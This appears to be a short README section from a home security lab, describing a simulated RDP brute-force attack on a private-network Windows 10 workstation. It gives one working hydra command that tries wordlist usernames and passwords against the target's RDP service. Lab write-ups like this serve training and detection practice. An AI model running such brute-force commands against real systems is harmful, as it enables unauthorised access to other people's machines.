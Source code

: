 ## Simulated Attack: RDP Brute-Force  

### Target  
- **Windows 10 Workstation**: `192.168.10.20` (RDP port `3389`).  

### Attack Command (Kali Linux)  
```bash
hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/rockyou.txt rdp://192.168.10.20
```



![Captura de ecrã 2025-03-16 041244](https://github.com/user-attachments/assets/34501442-2c73-4697-a19d-5d397f631ab2)
